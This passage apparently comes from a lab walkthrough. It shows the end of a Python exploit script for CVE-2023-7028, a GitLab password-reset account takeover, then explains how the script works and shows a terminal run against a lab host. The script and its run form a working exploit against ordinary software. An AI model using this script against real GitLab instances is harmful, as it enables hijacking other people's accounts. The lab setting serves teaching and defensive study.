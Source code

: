             'Connection': 'close',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br'
        }
        print('[DEBUG] Sending reset password request')
        html = self.s.post(f'{self.url.scheme}://{self.url.netloc}/users/password',
                           data=query_string,
                           headers=head,
                           verify=False).text
        sended = 'If your email address exists in our database' in html
        if sended:
            print(f'[DEBUG] Emails sent to {self.target} and {self.evil} !')
            print(f'Flag value: {bytes.fromhex("6163636f756e745f6861636b2364").decode()}')
        else:
            print('[DEBUG] Failed ... quitting')
        return sended
def parse_args():
    parser = argparse.ArgumentParser(add_help=True, description='This tool automates CVE-2023-7028 on gitlab')
    parser.add_argument("-u", "--url", dest="url", type=str, required=True, help="Gitlab url")
    parser.add_argument("-t", "--target", dest="target", type=str, required=True, help="Target email")
    parser.add_argument("-e", "--evil", dest="evil", default=None, type=str, required=False, help="Evil email")
    parser.add_argument("-p", "--password", dest="password", default=None, type=str, required=False, help="Password")
    return parser.parse_args()
if __name__ == '__main__':
    args = parse_args()
    exploit = CVE_2023_7028(
        url=args.url,
        target=args.target,
		evil=args.evil
    )
    if not exploit.ask_reset():
        exit()
</code></pre>

<br>
<p>We can see that the code first makes a <code>POST</code> request to the <code>/users/password/new</code> endpoint to scrap an authenticity token, then it makes another API call to the <code>/users/password</code> endpoint with the victim and attacker email addresses. As we know, the victim's email address is <code>victim@mail.gitlab.thm</code>. Run the command shown in the terminal below to execute the exploit:</p>
<br>

<p align="center">Post execution of attack.py</p>
<pre><code>
root@attackbox$ python3 attack.py -u http://10.10.143.20:8000 -t victim@mail.gitlab.thm -e attacker@mail.gitlab.thm
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = 1i4KUoxiLmYkazefpLgwUmMQ2CuVGULdpQs_D_J7qrKIih9Ja_4vIQCuq666kQhOtKRSRgdM8ti0BTNdPGTQ9A
[DEBUG] Sending reset password request
[DEBUG] Emails sent to victim@mail.gitlab.thm and attacker@mail.gitlab.thm!
</code></pre>
